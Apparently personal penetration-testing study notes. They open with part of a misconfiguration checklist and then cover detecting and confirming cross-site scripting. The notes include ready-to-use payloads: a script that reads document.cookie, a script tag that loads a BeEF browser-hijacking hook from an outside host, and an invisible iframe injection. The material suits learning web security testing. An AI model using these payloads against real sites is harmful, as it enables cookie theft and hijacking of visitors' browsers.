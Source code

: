 * Accessible S3 Buckets
* Non functional additional features enabled: like status pages, accounts or privileges
* Default credentials
* Verbose error messages disclosing system properties
* Not using HTTP and cookies security headers
* Non patched systems

## XXS

1. Detect XXS

Submit special characters and see if they are later present in the source code

`xpyxpy " ; < > `


Then look for `xpyxpy` in source code to identify injection points.

```html
<td> John</td><td>I would eat tacos here every day if I could!</td></tr><tr><td> ok</td><td>doki</td></tr><tr><td> fg</td><td>"xpyxpy ; < > ' '</td></tr>	
```


2. Confirm XXS

Alert() is dead: https://portswigger.net/research/alert-is-dead-long-live-print

Use print() instead or use only firefox browser for testing. But this would fail if user uses Chrome and its derivates.

Payloads: https://portswigger.net/web-security/cross-site-scripting/cheat-sheet

```
#get document cookies

<script>print(document.cookie)</script>

#get host ip
<script>print(window.location.host)</script>

```
## Script from file
For instance can be used to hook to BeeF browser hijacker.
```
<script src="http://192.168.119.xxx:3000/hook.js"></script>
```

## iframe injection

* Invisible iframe can be inserted into unsanitzed input

```
<iframe src=http://google.com height=”0” width=”0”></iframe>
```
This can be however filtered out by user's browser

